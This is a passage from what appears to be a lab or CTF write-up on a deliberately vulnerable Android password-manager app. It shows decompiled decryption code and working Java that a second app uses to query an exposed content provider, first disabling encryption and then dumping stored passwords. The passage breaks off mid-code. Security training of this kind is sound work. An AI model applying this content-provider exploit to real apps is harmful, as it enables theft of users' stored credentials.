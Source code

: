 ```java
                    Cursor query = supportSQLiteDatabase15.query("SELECT id, password FROM passwords WHERE isEncrypted = 1");
                    ArrayList arrayList = new ArrayList();
                    ArrayList arrayList2 = new ArrayList();
                    while (query.moveToNext()) {
                        long j = query.getLong(query.getColumnIndexOrThrow("id"));
                        byte[] blob = query.getBlob(query.getColumnIndexOrThrow("password"));
                        try {
                            Intrinsics.checkNotNull(blob);
                            byte[] bytes = encryptionService.decrypt(blob).getBytes(Charsets.UTF_8);
                            Intrinsics.checkNotNullExpressionValue(bytes, "getBytes(...)");
                            ContentValues contentValues = new ContentValues();
                            contentValues.put("password", bytes);
                            contentValues.put("isEncrypted", (Integer) 0);
                            
```
It sets the related shared pref value to false and decrypt the password on database. For making this job with another app, we can query the `disable_encryption` uri segment.

```java
private static final String PATH_DISABLE_ENCRYPTION = "disable_encryption";
...
...
uriMatcher.addURI(AUTHORITY, PATH_DISABLE_ENCRYPTION, 7)
```

As defined in manifest file and provider class, authority for this provider is 
```
com.eightksec.droidcave.provider
```
We can query this uri with this code block:

```java
private static final String CONTENT_URI_STRING = "content://com.eightksec.droidcave.provider/";

//Disable Encryption:
Uri contentUri1 = Uri.parse(CONTENT_URI_STRING + "disable_encryption");
Cursor cursor1 = getContentResolver().query(contentUri1, null, null, null, null);
```
After that we need to pull decrypted data from provider. We can use case 1,2 or 5. We can get all passwords with case 1 and 2 and run sql commands with case 5.

Sample Code for case 1-2:(thx AI)
```java
private static final String CONTENT_URI_STRING = "content://com.eightksec.droidcave.provider/";

//Get Passwords
Uri contentUri = Uri.parse(CONTENT_URI_STRING + "passwords/");
Cursor cursor = getContentResolver().query(
        contentUri, null, null, null, null
);

String[] columnNames = cursor.getColumnNames();

String blobby = "";
if (cursor != null) {
    columnNames = cursor.getColumnNames();

    try {
        if (cursor.getCount() == 0) {
            Log.d("Evil", "No rows returned from query.");
        }

        int rowNum = 0;
        while (cursor.moveToNext()) {
```
